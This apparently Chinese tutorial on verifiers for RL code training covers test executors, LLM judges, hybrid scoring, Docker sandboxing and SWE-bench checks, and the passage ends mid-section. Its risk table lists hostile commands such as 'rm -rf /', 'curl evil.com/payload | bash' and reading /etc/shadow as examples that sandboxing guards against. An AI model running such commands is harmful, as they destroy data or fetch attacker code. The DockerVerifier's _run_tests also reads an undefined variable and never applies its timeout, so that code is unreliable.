




# Verifier 设计详解

> **Verifier**: RL 训练流程中负责判定模型输出质量的组件。它接收模型生成的 patch、答案或工具调用轨迹，返回一个结构化的评分结果，作为 reward signal 的核心来源。

> **Harness**: 评测框架中封装"环境初始化 + 任务执行 + 结果收集"的标准化执行单元。Verifier 通常嵌入在 Harness 内部运行，或者在 Harness 完成后对其输出做二次判定。

---

## 1. Verifier 定义与核心职责

### 1.1 Verifier 在 RL 训练中的位置



Verifier 是 RL 闭环里最靠近"真实世界反馈"的那一层。它的输出质量直接决定了训练信号的信噪比。

### 1.2 Verifier 与 Harness 的关系



两者的分工：

| 维度 | Harness | Verifier |
|------|---------|----------|
| 职责 | 搭建环境、执行代码、收集原始结果 | 判定结果好坏、计算分数 |
| 输入 | 任务定义 + 模型输出 | Harness 收集的原始结果 |
| 输出 | 测试日志、执行输出、覆盖率数据 | 结构化评分（分数 + 理由 + 元信息） |
| 可复用性 | 通常与特定 benchmark 绑定 | 可跨 benchmark 复用 |
| 失败模式 | 环境搭建失败、执行超时 | 评分逻辑错误、判据不合理 |

典型协作流程：Harness 负责把代码跑起来并收集 pytest 输出，Verifier 负责解析输出、判断哪些用例通过/失败，并映射为 reward 分数。

---

## 2. 五种 Verifier 类型详解

> **测试执行器 (Test Executor)**: 通过运行预定义的测试用例（单元测试、集成测试）来判定模型输出正确性的 Verifier。这是代码类任务中最常用的 Verifier 类型。

### 2.1 测试执行器

**工作原理**：将模型生成的 patch 应用到代码仓库，运行测试套件，根据测试结果计算分数。

```python
class TestExecutorVerifier:
    """基于测试执行的 Verifier，适用于有明确测试用例的代码任务。"""

    def __init__(self, test_command: str, timeout: int = 120):
        self.test_command = test_command
        self.timeout = timeout

    def verify(self, repo_path: str, patch: str) -> VerifierResult:
        # 第一步：应用 patch
        apply_result = self._apply_patch(repo_path, patch)
        if not apply_result.success:
            return VerifierResult(
                score=0.0,
                reason=f"Patch 应用失败: {apply_result.stderr}",
                details={"patch_apply": "failed"},
            )

        # 第二步：执行测试
        test_result = self._run_tests(repo_path)
        if not test_result.success and test_result.timed_out:
            return VerifierResult(
                score=0.0,
                reason="测试执行超时",
                details={"timeout": True, "time_limit": self.timeout},
            )

        # 第三步：解析测试结果
        parsed = self._parse_test_output(test_result.stdout)
        return VerifierResult(
            score=parsed.pass_rate,
            reason=f"通过 {parsed.passed}/{parsed.total} 个测试",
            details={
                "passed": parsed.passed,
                "failed": parsed.failed,
                "errored": parsed.errored,
                "total": parsed.total,
                "pass_rate": parsed.pass_rate,
            },
        )
```

**优点**：
- 客观性强，结果可复现
- 判定标准明确（通过/失败）
- 能检测回归问题（新增测试失败）

**缺点**：
- 强依赖测试质量，测试覆盖不足会导致误判
- 执行成本高，大规模训练时成为瓶颈
- 无法评估非功能性需求（代码风格、安全性）

---

> **静态分析器 (Static Analyzer)**: 不执行代码，通过词法/语法/语义分析手段检查代码质量的 Verifier。

### 2.2 静态分析器

**工作原理**：对模型输出进行静态扫描，检查类型错误、代码风格、安全隐患等问题。

```python
class StaticAnalyzerVerifier:
    """基于静态分析的 Verifier，作为测试执行前的快速过滤层。"""

    def __init__(self):
        self.checks = [
            self._type_check,       # mypy / pyright
            self._lint_check,       # ruff / eslint
            self._security_check,   # bandit / semgrep
            self._syntax_check,     # ast.parse
        ]

    def verify(self, code: str, language: str = "python") -> VerifierResult:
        results = {}
        total_score = 0.0
        weights = {"syntax": 0.3, "type": 0.3, "lint": 0.2, "security": 0.2}

        for check_fn in self.checks:
            name, result = check_fn(code, language)
            results[name] = result
            if result.passed:
                total_score += weights.get(name, 0.1)

        return VerifierResult(
            score=total_score,
            reason=f"静态分析: {sum(1 for r in results.values() if r.passed)}/{len(results)} 通过",
            details=results,
        )

    def _syntax_check(self, code: str, language: str):
        """语法检查：代码能否被正确解析。"""
        try:
            ast.parse(code)
            return "syntax", CheckResult(passed=True, message="语法正确")
        except SyntaxError as e:
            return "syntax", CheckResult(passed=False, message=str(e))
```

**适用场景**：
- 作为分层验证的第一层，快速过滤明显错误的输出
- 训练早期阶段，模型输出质量较低时尤其有效
- 对安全性有严格要求的场景（检测硬编码密钥、SQL 注入等）

---

> **性能基准 (Performance Benchmark)**: 在功能正确性之外，额外衡量模型输出在运行时性能指标（速度、内存、吞吐量）上表现的 Verifier。

### 2.3 性能基准

**工作原理**：在功能验证通过后，运行性能基准测试，将结果与基线对比。

```python
class PerformanceBenchmarkVerifier:
    """基于性能基准的 Verifier，评估代码的运行时效率。"""

    def __init__(self, baseline_metrics: dict, thresholds: dict):
        self.baseline = baseline_metrics  # {"latency_p50": 120, "memory_peak": 256}
        self.thresholds = thresholds      # {"latency_p50": 1.2, "memory_peak": 1.5}

    def verify(self, repo_path: str) -> VerifierResult:
        # 先确认功能测试通过
        test_result = self._run_functional_tests(repo_path)
        if not test_result.all_passed:
            return VerifierResult(
                score=0.0,
                reason="功能测试未通过，跳过性能评估",
                details={"functional_pass": False},
            )

        # 运行性能基准
        perf_metrics = self._run_benchmark(repo_path)
        violations = self._check_thresholds(perf_metrics)

        score = 1.0 - (len(violations) * 0.2)  # 每个违规扣 0.2 分
        return VerifierResult(
            score=max(0.0, score),
            reason=f"性能检查: {len(violations)} 项违规",
            details={
                "metrics": perf_metrics,
                "baseline": self.baseline,
                "violations": violations,
            },
        )
```

**关键设计决策**：
- 性能测试必须在功能测试之后运行（功能不正确则性能无意义）
- 需要多次采样取中位数，避免噪声干扰（至少 5 次取 p50）
- 阈值设置要留余量（通常允许比基线慢 20%-50%）
- 性能 Verifier 通常作为辅助信号，不作为唯一判据

---

> **LLM Judge**: 使用另一个语言模型（通常比生成模型更强）来评估模型输出质量的 Verifier。适用于缺乏客观测试标准的开放式任务。

### 2.4 LLM Judge

**工作原理**：将模型输出和评分标准作为 prompt 输入给 Judge 模型，获取结构化评分。

```python
class LLMJudgeVerifier:
    """基于 LLM 的 Verifier，适用于开放式或半开放式任务。"""

    JUDGE_PROMPT_TEMPLATE = """你是一个严格的代码评审专家。
请根据以下标准评估代码 patch 的质量：

任务描述: {task_description}
原始代码: {original_code}
模型提交的 Patch:
```diff
{patch}
```

评分维度（每项 0-10 分）：
1. 正确性：patch 是否正确解决了问题
2. 完整性：是否处理了边界情况
3. 代码质量：可读性、命名、结构
4. 最小性：是否只修改了必要的部分

请以 JSON 格式返回评分和理由。"""

    def __init__(self, judge_model: str = "claude-3-opus"):
        self.judge_model = judge_model

    def verify(self, task: Task, patch: str) -> VerifierResult:
        prompt = self.JUDGE_PROMPT_TEMPLATE.format(
            task_description=task.description,
            original_code=task.original_code,
            patch=patch,
        )
        response = self._call_judge(prompt)
        scores = self._parse_judge_response(response)

        # 加权汇总
        weights = {"correctness": 0.4, "completeness": 0.3, "quality": 0.2, "minimality": 0.1}
        total = sum(scores[dim] * w for dim, w in weights.items()) / 10.0

        return VerifierResult(
            score=total,
            reason=scores.get("reasoning", ""),
            details={"dimension_scores": scores, "judge_model": self.judge_model},
        )
```

**LLM Judge 的已知问题**：
- **位置偏差 (Position Bias)**: 当对比多个输出时，排在前面更容易得高分
- **长度偏差 (Length Bias)**: 倾向于给更长的回答打高分
- **格式偏差 (Formatting Bias)**: 格式化好的输出更容易得高分，即使内容一般
- **自我偏好 (Self-Preference)**: Judge 模型倾向于给自己生成的输出打高分

**缓解策略**：
- 使用多 Judge 投票取平均
- 交换候选输出位置，双向评估
- 定期用人工标注校准 Judge
- 使用更强的模型做 Judge（如用 Opus 评判 Sonnet 的输出）

---

> **混合判分器 (Hybrid Scorer)**: 将多种验证方式（测试执行 + 静态分析 + LLM Judge 等）按权重组合，综合判定模型输出质量的 Verifier。

### 2.5 混合判分器

**工作原理**：根据任务特点，组合多种底层 Verifier，产生一个综合分数。

```python
class HybridVerifier:
    """混合判分器：组合多种 Verifier，综合评估模型输出。"""

    def __init__(self):
        self.verifiers = {
            "static": StaticAnalyzerVerifier(),
            "test": TestExecutorVerifier(test_command="pytest -x -q"),
            "perf": PerformanceBenchmarkVerifier(
                baseline_metrics={"latency_p50": 100},
                thresholds={"latency_p50": 1.3},
            ),
            "judge": LLMJudgeVerifier(),
        }
        # 根据任务类型选择不同的权重配置
        self.weight_configs = {
            "code_fix": {"static": 0.1, "test": 0.7, "perf": 0.1, "judge": 0.1},
            "feature":  {"static": 0.1, "test": 0.5, "perf": 0.1, "judge": 0.3},
            "refactor": {"static": 0.2, "test": 0.3, "perf": 0.1, "judge": 0.4},
        }

    def verify(self, task: Task, patch: str, task_type: str = "code_fix") -> VerifierResult:
        weights = self.weight_configs.get(task_type, self.weight_configs["code_fix"])
        total_score = 0.0
        all_details = {}

        # 按成本从低到高依次执行，支持短路
        for name, weight in sorted(weights.items(), key=lambda x: x[1], reverse=True):
            verifier = self.verifiers[name]
            result = verifier.verify(task, patch)
            all_details[name] = result
            total_score += result.score * weight

            # 短路逻辑：如果测试全挂，后续检查意义不大
            if name == "test" and result.score == 0.0:
                break

        return VerifierResult(
            score=total_score,
            reason=f"综合评分 (类型={task_type}): {total_score:.3f}",
            details=all_details,
        )
```

**设计要点**：
- **分层短路**：昂贵检查（测试执行、LLM Judge）在廉价检查（静态分析）失败后可以跳过
- **权重可配置**：不同任务类型使用不同权重组合
- **分数归一化**：各子 Verifier 的输出必须归一化到 [0, 1] 区间

---

## 3. Docker 作为 Verifier 执行环境

> **沙箱 (Sandbox)**: 一种安全隔离机制，在受限环境中执行不受信任的代码，防止其对宿主系统造成损害。Docker 容器是最常用的沙箱实现之一。

### 3.1 为什么必须隔离

模型在 RL 训练过程中可能生成任意代码，包括但不限于：

| 风险类型 | 示例 |
|----------|------|
| 恶意命令 | `rm -rf /`、`curl evil.com/payload | bash` |
| 资源耗尽 | 无限循环、内存炸弹、fork 炸弹 |
| 网络滥用 | 发送请求到外部服务、内网扫描 |
| 文件系统攻击 | 读取 `/etc/shadow`、写入系统目录 |
| 逃逸尝试 | 利用内核漏洞突破容器隔离 |

不隔离的后果：在分布式训练集群中，一个恶意 patch 可能影响其他训练任务，甚至危及整个集群的安全。

### 3.2 Docker 镜像设计

一个生产级的 Python 验证镜像需要考虑：

```dockerfile
# ============================================================
# 生产级 Python 验证镜像
# 设计原则：最小权限、可复现、快速启动
# ============================================================
FROM python:3.11-slim AS base

# 安全：创建非 root 用户
RUN groupadd -r verifier && useradd -r -g verifier -m verifier

# 安装系统依赖（根据具体任务定制）
RUN apt-get update && apt-get install -y --no-install-recommends \
    git \
    make \
    gcc \
    && rm -rf /var/lib/apt/lists/*

# Python 依赖
COPY requirements-verifier.txt /tmp/
RUN pip install --no-cache-dir -r /tmp/requirements-verifier.txt

# 工作目录
WORKDIR /workspace

# 安全：切换到非 root 用户
USER verifier

# 安全：设置资源限制的环境变量
ENV PYTHONDONTWRITEBYTECODE=1
ENV PYTHONUNBUFFERED=1

ENTRYPOINT ["python", "/verifier_entry.py"]
```

**关键安全配置**：

```python
# Docker 运行时的安全参数
container_config = {
    "image": "verifier:latest",
    "mem_limit": "2g",              # 内存上限
    "memswap_limit": "2g",          # 禁止使用 swap
    "nano_cpus": 2_000_000_000,     # 最多使用 2 个 CPU 核心
    "network_disabled": True,       # 禁用网络（防止外连）
    "read_only": True,              # 只读文件系统
    "user": "verifier:verifier",    # 非 root 用户
    "cap_drop": ["ALL"],            # 移除所有 Linux capabilities
    "security_opt": ["no-new-privileges:true"],  # 禁止获取新权限
    "pids_limit": 256,              # 限制进程数量（防 fork 炸弹）
    "tmpfs": {"/tmp": "size=100m"}, # tmpfs 挂载（限制临时文件大小）
}
```

### 3.3 完整 Python DockerVerifier 类实现

```python
"""
DockerVerifier: 基于 Docker 的代码验证器。

负责在隔离容器中安全地执行代码验证任务，
包括 patch 应用、测试运行和结果解析。
"""

import docker
import logging
import tempfile
import tarfile
import io
import time
from dataclasses import dataclass, field
from enum import Enum
from typing import Optional
from pathlib import Path

logger = logging.getLogger(__name__)


class VerifyStatus(Enum):
    """验证结果状态枚举。"""
    PASSED = "passed"
    FAILED = "failed"
    TIMEOUT = "timeout"
    ERROR = "error"
    PATCH_FAILED = "patch_failed"


@dataclass
class VerifyResult:
    """验证结果的结构化表示。

    Attributes:
        status: 验证状态
        score: 归一化分数 [0.0, 1.0]
        reason: 人类可读的判定原因
        test_output: 测试命令的原始输出
        duration_sec: 验证耗时（秒）
        exit_code: 容器退出码
        details: 额外的结构化信息
    """
    status: VerifyStatus
    score: float
    reason: str
    test_output: str = ""
    duration_sec: float = 0.0
    exit_code: int = -1
    details: dict = field(default_factory=dict)


@dataclass
class DockerVerifierConfig:
    """DockerVerifier 配置。

    Attributes:
        image: Docker 镜像名称
        timeout: 执行超时（秒）
        memory_limit: 内存上限
        cpu_limit: CPU 限制（核数）
        max_retries: 失败重试次数
        pool_size: 容器池大小
    """
    image: str = "verifier:latest"
    timeout: int = 120
    memory_limit: str = "2g"
    cpu_limit: float = 2.0
    max_retries: int = 2
    pool_size: int = 10


class DockerVerifier:
    """基于 Docker 容器的代码验证器。

    在隔离的 Docker 容器中执行代码验证任务，
    支持 patch 应用、测试运行和超时处理。
    """

    def __init__(self, config: Optional[DockerVerifierConfig] = None):
        self.config = config or DockerVerifierConfig()
        self.client = docker.from_env()
        self._container_pool: list = []
        logger.info(
            "DockerVerifier 初始化完成: image=%s, timeout=%ds, mem=%s",
            self.config.image, self.config.timeout, self.config.memory_limit,
        )

    def verify(
        self,
        repo_archive: bytes,
        patch: str,
        test_command: str = "python -m pytest -x -q",
    ) -> VerifyResult:
        """执行一次完整的验证流程。

        Args:
            repo_archive: 仓库代码的 tar.gz 归档字节
            patch: 待应用的 git diff 格式 patch
            test_command: 测试执行命令

        Returns:
            VerifyResult 结构化验证结果
        """
        start_time = time.time()
        container = None

        try:
            # 第一步：创建容器
            container = self._create_container()

            # 第二步：注入代码仓库
            self._inject_repo(container, repo_archive)

            # 第三步：应用 patch
            patch_result = self._apply_patch(container, patch)
            if not patch_result["success"]:
                return VerifyResult(
                    status=VerifyStatus.PATCH_FAILED,
                    score=0.0,
                    reason=f"Patch 应用失败: {patch_result['error']}",
                    exit_code=1,
                    duration_sec=time.time() - start_time,
                    details={"patch_stderr": patch_result.get("stderr", "")},
                )

            # 第四步：执行测试
            test_output, exit_code = self._run_tests(container, test_command)

            # 第五步：解析结果
            duration = time.time() - start_time
            result = self._parse_result(test_output, exit_code, duration)
            return result

        except docker.errors.APIError as e:
            logger.error("Docker API 错误: %s", e)
            return VerifyResult(
                status=VerifyStatus.ERROR,
                score=0.0,
                reason=f"Docker API 错误: {e}",
                exit_code=-1,
                duration_sec=time.time() - start_time,
            )
        except Exception as e:
            logger.exception("验证过程中出现未预期错误")
            return VerifyResult(
                status=VerifyStatus.ERROR,
                score=0.0,
                reason=f"未预期错误: {type(e).__name__}: {e}",
                exit_code=-1,
                duration_sec=time.time() - start_time,
            )
        finally:
            # 确保容器被清理
            if container:
                self._cleanup_container(container)

    def _create_container(self) -> docker.models.containers.Container:
        """创建并启动一个验证容器。"""
        container = self.client.containers.run(
            image=self.config.image,
            detach=True,
            mem_limit=self.config.memory_limit,
            memswap_limit=self.config.memory_limit,
            nano_cpus=int(self.config.cpu_limit * 1_000_000_000),
            network_disabled=True,
            read_only=True,
            cap_drop=["ALL"],
            security_opt=["no-new-privileges:true"],
            pids_limit=256,
            tmpfs={"/tmp": "size=100m,noexec"},
            user="verifier:verifier",
            stdin_open=True,
            stdout=True,
            stderr=True,
        )
        logger.debug("容器已创建: %s", container.short_id)
        return container

    def _inject_repo(self, container, repo_archive: bytes) -> None:
        """将代码仓库注入容器的工作目录。"""
        # tar 格式注入
        tar_buffer = io.BytesIO(repo_archive)
        container.put_archive("/workspace", tar_buffer)
        logger.debug("代码仓库已注入容器")

    def _apply_patch(self, container, patch: str) -> dict:
        """在容器内应用 git patch。"""
        # 将 patch 写入容器的临时文件
        patch_bytes = patch.encode("utf-8")
        tar_buffer = io.BytesIO()
        with tarfile.open(fileobj=tar_buffer, mode="w") as tar:
            info = tarfile.TarInfo(name="fix.patch")
            info.size = len(patch_bytes)
            tar.addfile(info, io.BytesIO(patch_bytes))
        tar_buffer.seek(0)
        container.put_archive("/tmp", tar_buffer)

        # 执行 git apply
        exec_result = container.exec_run(
            cmd=["git", "apply", "/tmp/fix.patch"],
            workdir="/workspace",
        )
        return {
            "success": exec_result.exit_code == 0,
            "error": exec_result.output.decode("utf-8", errors="replace")
            if exec_result.exit_code != 0 else "",
        }

    def _run_tests(self, container, test_command: str) -> tuple[str, int]:
        """在容器内执行测试命令，支持超时控制。"""
        exec_id = container.exec_run(
            cmd=["bash", "-c", test_command],
            workdir="/workspace",
            demux=True,
        )

        raw_output = exec_result.output
        if isinstance(raw_output, tuple):
            stdout, stderr = raw_output
            combined = (stdout or b"").decode("utf-8", errors="replace")
            combined += (stderr or b"").decode("utf-8", errors="replace")
        else:
            combined = raw_output.decode("utf-8", errors="replace")

        return combined, exec_id.exit_code

    def _parse_result(self, test_output: str, exit_code: int, duration: float) -> VerifyResult:
        """解析测试输出，生成结构化结果。"""
        if exit_code == 124:
            return VerifyResult(
                status=VerifyStatus.TIMEOUT,
                score=0.0,
                reason=f"测试执行超时（{self.config.timeout}秒）",
                test_output=test_output,
                exit_code=exit_code,
                duration_sec=duration,
            )

        if exit_code != 0:
            return VerifyResult(
                status=VerifyStatus.FAILED,
                score=0.0,
                reason="测试未通过",
                test_output=test_output,
                exit_code=exit_code,
                duration_sec=duration,
            )

        # 解析通过的测试数量
        passed, total = self._extract_pass_count(test_output)
        score = passed / total if total > 0 else 1.0

        return VerifyResult(
            status=VerifyStatus.PASSED if score == 1.0 else VerifyStatus.FAILED,
            score=score,
            reason=f"测试通过: {passed}/{total} (score={score:.2f})",
            test_output=test_output,
            exit_code=exit_code,
            duration_sec=duration,
            details={"passed": passed, "total": total},
        )

    @staticmethod
    def _extract_pass_count(output: str) -> tuple[int, int]:
        """从 pytest 输出中提取通过数和总数。

        支持格式示例:
        - "5 passed, 2 failed"
        - "5 passed in 1.23s"
        - "5 passed, 2 failed, 1 error"
        """
        import re
        match = re.search(r"(\d+) passed", output)
        passed = int(match.group(1)) if match else 0
        total = passed
        for pattern in [r"(\d+) failed", r"(\d+) error"]:
            match = re.search(pattern, output, re.IGNORECASE)
            if match:
                total += int(match.group(1))
        return passed, total

    def _cleanup_container(self, container) -> None:
        """强制清理容器及其资源。"""
        try:
            container.remove(force=True)
            logger.debug("容器已清理: %s", container.short_id)
        except Exception as e:
            logger.warning("容器清理失败: %s", e)

    def batch_verify(
        self,
        tasks: list[dict],
        max_workers: int = 4,
    ) -> list[VerifyResult]:
        """并行执行多个验证任务。

        Args:
            tasks: 待验证任务列表，每个包含 repo_archive, patch, test_command
            max_workers: 最大并行数

        Returns:
            验证结果列表，与输入顺序对应
        """
        from concurrent.futures import ThreadPoolExecutor, as_completed

        results = [None] * len(tasks)

        with ThreadPoolExecutor(max_workers=max_workers) as executor:
            future_to_idx = {
                executor.submit(
                    self.verify,
                    task["repo_archive"],
                    task["patch"],
                    task.get("test_command", "python -m pytest -x -q"),
                ): idx
                for idx, task in enumerate(tasks)
            }
            for future in as_completed(future_to_idx):
                idx = future_to_idx[future]
                results[idx] = future.result()

        return results
```

### 3.4 超时和异常处理策略

| 异常场景 | 处理方式 | 分数 |
|----------|----------|------|
| Patch 应用失败 | 立即返回，记录 stderr | 0.0 |
| 测试执行超时 | kill 容器，记录已跑过的输出 | 0.0 |
| 容器 OOM | Docker 自动 kill，记录 exit code 137 | 0.0 |
| 容器崩溃 | 捕获异常，返回 ERROR 状态 | 0.0 |
| 测试框架异常 | 解析失败，记录原始输出 | 0.0 |
| Docker daemon 不可用 | 重试 N 次，最终返回 ERROR | 0.0 |

> **关键原则**：任何异常都不能默默吞掉，必须结构化记录。Verifier 的失败原因本身是宝贵的训练信号（例如模型频繁生成导致 OOM 的代码，说明需要加入资源意识）。

### 3.5 容器池化优化

大规模 RL 训练中，每次创建/销毁容器的开销不可忽视（约 1-3 秒）。优化方案：

```python
class ContainerPool:
    """容器预热池，避免重复创建容器开销。"""

    def __init__(self, image: str, pool_size: int = 10):
        self.image = image
        self.pool_size = pool_size
        self._available: queue.Queue = queue.Queue(maxsize=pool_size)
        self._initialized = False

    def warmup(self) -> None:
        """预热：提前创建容器池。"""
        for _ in range(self.pool_size):
            container = self._create_container()
            self._available.put(container)
        self._initialized = True

    def acquire(self, timeout: float = 30.0) -> ContainerWrapper:
        """获取一个可用容器，超时则创建新的。"""
        try:
            container = self._available.get(timeout=timeout)
            return ContainerWrapper(container, self)
        except queue.Empty:
            logger.warning("容器池耗尽，临时创建新容器")
            container = self._create_container()
            return ContainerWrapper(container, self)

    def release(self, container) -> None:
        """归还容器。如果容器状态异常则销毁并创建新的。"""
        try:
            container.reload()
            if container.status == "running":
                self._available.put(container)
            else:
                self._replace(container)
        except Exception:
            self._replace(container)
```

---

## 4. 代码任务 vs Agent 任务的 Verifier 设计差异

> **代码任务 (Code Task)**: 模型直接输出代码（patch、函数、类等），通过执行测试来验证正确性的任务类型。如 HumanEval、SWE-bench。

> **Agent 任务 (Agent Task)**: 模型通过多步工具调用（文件操作、搜索、编译等）完成复杂任务，需要评估整个决策轨迹质量的任务类型。如 WebArena、ToolBench。

### 4.1 核心差异对比表

| 维度 | 代码任务 | Agent 任务 |
|------|----------|------------|
| **输出形式** | 单个代码文件或 patch | 多步工具调用轨迹 + 最终结果 |
| **验证对象** | 代码正确性 | 任务完成度 + 轨迹质量 + 工具使用合理性 |
| **客观性** | 高（测试通过/失败） | 中低（需要综合评判） |
| **主要 Verifier** | 测试执行器 | 混合判分器 / LLM Judge |
| **验证粒度** | 细粒度（每个测试用例） | 粗粒度（整体任务级别） |
| **执行成本** | 中等（运行测试） | 高（需要模拟完整交互） |
| **评估维度** | 正确性、性能、安全 | 完成度、效率、工具选择、最终答案 |
| **Reward hack 风险** | 低（测试难以欺骗） | 高（可能学会走捷径） |
| **验证延迟** | 秒级 | 分钟级 |

### 4.2 代码任务的 Verifier 设计模式

```python
# 代码任务：线性流水线式验证
def verify_code_task(task, patch):
    """代码任务的验证流程：静态分析 -> 单元测试 -> 集成测试 -> 性能测试。"""
    # 阶段 1：快速过滤（秒级）
    syntax_ok = check_syntax(patch)
    type_ok = check_types(patch)
    if not (syntax_ok and type_ok):
        return 0.0  # 短路

    # 阶段 2：功能验证（十秒级）
    test_result = run_tests(patch)
    if not test_result.all_passed:
        return test_result.pass_rate

    # 阶段 3：深度验证（分钟级，可选）
    perf_ok = check_performance(patch)
    return 0.8 * test_result.pass_rate + 0.2 * perf_ok.score
```

### 4.3 Agent 任务的 Verifier 设计模式

```python
# Agent 任务：多维度综合验证
def verify_agent_task(task, trajectory):
    """Agent 任务的验证流程：轨迹分析 + 状态检查 + 答案验证。"""

    results = {}

    # 维度 1：任务完成度（最重要，权重 0.4）
    results["completion"] = check_task_completion(
        task.goal,
        trajectory.final_state,
    )

    # 维度 2：工具使用效率（权重 0.2）
    results["efficiency"] = evaluate_tool_efficiency(
        trajectory.tool_calls,
        ideal_call_sequence=task.ideal_steps,
    )

    # 维度 3：轨迹合理性（权重 0.2）
    results["trajectory"] = check_trajectory_coherence(trajectory)

    # 维度 4：最终答案准确性（权重 0.2）
    results["answer"] = verify_final_answer(
        task.expected_answer,
        trajectory.final_answer,
    )

    # 加权汇总
    weights = {"completion": 0.4, "efficiency": 0.2, "trajectory": 0.2, "answer": 0.2}
    total = sum(results[dim].score * weights[dim] for dim in weights)

    return VerifyResult(
        score=total,
        details=results,
        reason=generate_summary(results),
    )
```

### 4.4 设计差异的根本原因

代码任务和 Agent 任务的核心差异在于**可分解性**：

- 代码任务可以分解为独立的测试用例，每个用例的通过/失败是独立的二元判定
- Agent 任务是一个序列决策过程，中间步骤的质量会影响最终结果，且存在多种正确路径

这意味着 Agent 任务的 Verifier 必须处理**路径多样性**问题：两条不同的工具调用轨迹可能都正确完成了任务，但效率和质量可能不同。

---

## 5. SWE-bench Verifier 实现细节

> **SWE-bench**: 一个评估 AI 系统解决真实 GitHub Issue 能力的 benchmark。给定一个 GitHub Issue 描述和相关代码仓库，要求模型生成一个 patch 来修复该 Issue，由 Verifier 通过运行仓库的测试套件来判定 patch 是否正确。

### 5.1 SWE-bench 验证流程全景



### 5.2 四阶段详细实现

#### 阶段一：Checkout

```python
def checkout_repo(
    repo_path: str,
    base_commit: str,
) -> None:
    """检出指定的 base commit。

    SWE-bench 中每个实例都指定了一个 base commit，
    这是 Issue 被创建前的代码状态。

    为什么需要 checkout 而不是用最新代码？
    - 测试可能依赖特定的依赖版本
    - Issue 可能已在后续被修复，我们需要验证模型能否独立修复
    - 保证复现性：同一 commit 永远得到相同结果
    """
    subprocess.run(
        ["git", "checkout", base_commit],
        cwd=repo_path,
        check=True,
        capture_output=True,
        timeout=60,
    )
```

#### 阶段二：Patch 应用

```python
def apply_model_patch(
    repo_path: str,
    patch: str,
) -> PatchResult:
    """应用模型生成的 patch。

    SWE-bench 中的 patch 通常是 unified diff 格式。
    需要处理多种异常情况：
    - patch 格式不正确
    - patch 与当前代码冲突
    - patch 修改了错误的文件
    """
    # 将 patch 写入临时文件
    with tempfile.NamedTemporaryFile(mode="w", suffix=".patch", delete=False) as f:
        f.write(patch)
        patch_file = f.name

    try:
        # 使用 git apply（比 patch 命令更严格）
        result = subprocess.run(
            ["git", "apply", "--check", patch_file],
            cwd=repo_path,
            capture_output=True,
            text=True,
            timeout=30,
        )
        if result.returncode != 0:
            return PatchResult(
                success=False,
                error=f"Patch 检查失败: {result.stderr}",
            )

        # 检查通过后正式应用
        result = subprocess.run(
            ["git", "apply", patch_file],
            cwd=repo_path,
            capture_output=True,
            text=True,
            timeout=30,
        )
        return PatchResult(
            success=result.returncode == 0,
            error=result.stderr if result.returncode != 0 else None,
        )
    finally:
        os.unlink(patch_file)
```

#### 阶段三：测试执行

```python
def run_swebench_tests(
    repo_path: str,
    test_command: str,
    instance_id: str,
    timeout: int = 300,
) -> TestResult:
    """运行 SWE-bench 实例指定的测试命令。

    SWE-bench 的关键特点：
    - 每个实例有自己的测试命令（通常是 pytest 的特定子集）
    - 需要精确匹配测试文件和测试函数名
    - 有些仓库需要特殊的 setup 步骤（如数据库初始化）
    """
    # SWE-bench 常见的测试命令格式:
    # pytest tests/test_foo.py::TestFoo::test_bar
    # python -m pytest -xvs tests/path/to/test.py

    try:
        result = subprocess.run(
            test_command,
            shell=True,
            cwd=repo_path,
            capture_output=True,
            text=True,
            timeout=timeout,
        )
        return TestResult(
            stdout=result.stdout,
            stderr=result.stderr,
            exit_code=result.returncode,
            timed_out=False,
        )
    except subprocess.TimeoutExpired:
        return TestResult(
            stdout="",
            stderr=f"测试超时（{timeout}秒）",
            exit_code=-1,
            timed_out=True,
        )
```

#### 阶段四：结果解析

```python
def parse_swebench_result(
    test_output: str,
    exit_code: int,
    resolved_tests: list[str],
) -> SWEbenchResult:
